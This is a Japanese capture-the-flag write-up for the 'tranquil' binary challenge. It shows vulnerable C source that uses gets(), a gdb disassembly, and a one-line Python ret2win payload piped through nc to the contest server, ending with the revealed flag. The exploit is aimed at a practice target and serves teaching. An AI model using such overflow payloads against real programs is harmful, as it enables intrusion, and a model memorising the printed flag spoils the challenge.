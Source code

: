 # tranquil:Binary:70pts
Finally, [inner peace](tranquil) - Master Oogway  
[Source](tranquil.c)  
Connect with `nc shell.actf.co 21830`, or find it on the shell server at `/problems/2021/tranquil`.  
Hint  
The compiler gives me a warning about gets... I wonder why.  

# Solution
配布されたソースを見ると以下のようであった。  
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
~~~
    puts(flag);
}

~~~

int vuln(){
    char password[64];
    
    puts("Enter the secret word: ");
    
    gets(&password);
    
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }
    
    return 0;
}


int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();
    
    // not so easy for you!
    // win();
    
    return 0;
}
```
ret2winである。  
以下のようにwinのアドレスを取得し、リターンアドレスを書き換える。  
```bash
$ gdb ./tranquil
~~~
gdb-peda$ disass win
Dump of assembler code for function win:
   0x0000000000401196 <+0>:     push   rbp
   0x0000000000401197 <+1>:     mov    rbp,rsp
   0x000000000040119a <+4>:     sub    rsp,0x90
   0x00000000004011a1 <+11>:    lea    rsi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+18>:    lea    rdi,[rip+0xe5b]        # 0x40200a
   0x00000000004011af <+25>:    call   0x401090 <fopen@plt>
   0x00000000004011b4 <+30>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011b8 <+34>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011bd <+39>:    jne    0x4011da <win+68>
   0x00000000004011bf <+41>:    lea    rdi,[rip+0xe52]        # 0x402018
   0x00000000004011c6 <+48>:    mov    eax,0x0
   0x00000000004011cb <+53>:    call   0x401050 <printf@plt>
   0x00000000004011d0 <+58>:    mov    edi,0x1
   0x00000000004011d5 <+63>:    call   0x4010a0 <exit@plt>
   0x00000000004011da <+68>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011de <+72>:    lea    rax,[rbp-0x90]
   0x00000000004011e5 <+79>:    mov    esi,0x80
   0x00000000004011ea <+84>:    mov    rdi,rax
   0x00000000004011ed <+87>:    call   0x401060 <fgets@plt>
   0x00000000004011f2 <+92>:    lea    rax,[rbp-0x90]
   0x00000000004011f9 <+99>:    mov    rdi,rax
   0x00000000004011fc <+102>:   call   0x401030 <puts@plt>
   0x0000000000401201 <+107>:   nop
   0x0000000000401202 <+108>:   leave
   0x0000000000401203 <+109>:   ret
End of assembler dump.
gdb-peda$ q
$ python3 -c "import sys;sys.stdout.buffer.write(b'\x96\x11\x40\x00\x00\x00\x00\x00'*10+b'\n')" | nc shell.actf.co 21830
Enter the secret word:
Login failed!
actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}

Segmentation fault (core dumped)
```
flagが得られた。  

## actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}